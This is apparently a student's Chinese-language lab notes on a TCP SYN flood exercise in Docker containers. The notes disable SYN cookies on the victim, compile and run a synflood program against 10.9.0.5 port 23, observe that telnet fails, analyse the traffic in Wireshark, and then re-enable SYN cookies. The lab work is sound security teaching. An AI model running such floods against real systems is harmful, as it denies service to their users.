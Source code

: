 ```
netstat -tna
```

![image-20241120151433464](C:\Users\29450\AppData\Roaming\Typora\typora-user-images\image-20241120151433464.png)

关闭SYNcookie

```
sysctl -w net.ipv4.tcp_syncookies=0
```

![image-20241120151715760](C:\Users\29450\AppData\Roaming\Typora\typora-user-images\image-20241120151715760.png)

在seed（攻击机）上，编译synflood.c 

```
gcc synflood.c -o synflood
```

切换到攻击机

```
docker exec -it victim-10.9.0.5 bash
```

攻击机目录下volumes与seed机是共享的

使用攻击机对victim进行攻击

```
synflood 10.9.0.5 23
```

在victim上查看网络状态，发现出现了大量不明ip

![image-20241120155145545](C:\Users\29450\AppData\Roaming\Typora\typora-user-images\image-20241120155145545.png)

稍等一小段时间后

在user1机上尝试telnet连接victim

```
docker exec -it user1-10.9.0.6 bash
telnet 10.9.0.5
```

发现无法连接

![image-20241120160500215](C:\Users\29450\AppData\Roaming\Typora\typora-user-images\image-20241120160500215.png)

wireshark分析数据包：

![image-20241120162301585](C:\Users\29450\AppData\Roaming\Typora\typora-user-images\image-20241120162301585.png)

启用syncookie，再次发动攻击

```
sysctl -w net.ipv4.tcp_syncookies=1
```
